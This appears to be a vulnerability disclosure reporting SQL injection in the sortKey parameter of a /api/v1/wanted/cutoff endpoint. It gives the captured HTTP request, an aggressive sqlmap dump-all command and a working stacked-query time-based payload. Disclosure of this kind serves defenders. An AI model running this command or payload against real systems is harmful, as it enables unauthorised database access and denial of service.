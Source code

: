 Description
A SQL Injection vulnerability exists in the sortKey parameter of the GET /api/v1/wanted/cutoff API endpoint. The endpoint fails to properly sanitize user-supplied input, allowing attackers to inject and execute arbitrary SQL commands against the backend SQLite database.

Sqlmap confirmed exploitation via stacked queries, demonstrating that the parameter can be abused to run arbitrary SQL statements. A heavy query was executed using SQLite’s RANDOMBLOB() and HEX() functions to simulate a time-based payload, indicating deep control over database interactions.



https://github.com/user-attachments/assets/2a14d503-3cf4-4c53-afad-859654824b25







```
GET /api/v1/wanted/cutoff?page=1&pageSize=20&sortDirection=descending&sortKey=releaseDate&monitored=true HTTP/1.1
Host: 172.18.0.2:8787
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Api-Key: eb35ba8a3cfa4b1dbf21f0e2a1f95148
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://172.18.0.2:8787/wanted/cutoffunmet
Priority: u=0
```

Version
```0.4.15.2787```

Command
```
sqlmap.py -r ./reader --level 5 --risk 3 --dbms sqlite -a
```

sqlmap results
```
---
Parameter: sortKey (GET)
    Type: stacked queries
    Title: SQLite > 2.0 stacked queries (heavy query)
    Payload: page=1&pageSize=20&sortDirection=descending&sortKey=releaseDate";SELECT LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- gFIj&monitored=true
---
```
